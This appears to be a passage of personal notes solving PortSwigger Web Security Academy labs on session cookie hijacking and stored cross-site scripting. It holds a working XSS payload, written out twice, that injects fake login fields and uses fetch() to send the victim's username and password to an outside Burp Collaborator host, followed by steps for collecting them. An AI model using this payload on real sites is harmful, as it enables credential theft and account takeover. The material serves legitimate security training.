 ```bash

I8y40dZuIyFs6hVATs3ka6TMcIk6U0MY

Take this session cookie and place it as your own "Cookie: session="


```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220517191525.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220517191129.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220517191443.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220517191410.png)

### Exploiting cross-site scripting to capture passwords
```bash

# This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.


<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://8z8jf2gg5fnphge8jxes7g30prvhj6.oastify.com', {
method: 'POST',
mode: 'no-cors',
body: username.value+':'+this.value
});">

Go to Burp -> Burp collaborator client -> Copy to clipboard
Click on "View post"
Enter comment:

<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://8z8jf2gg5fnphge8jxes7g30prvhj6.oastify.com', {
method: 'POST',
mode: 'no-cors',
body: username.value+':'+this.value
});">

Name:

name

Email:

email@email.com

Go to: Burp Collaborator client
Click "Poll now"
Choose the HTTP response "Type" -> Request to Collaborator -> username:password

```
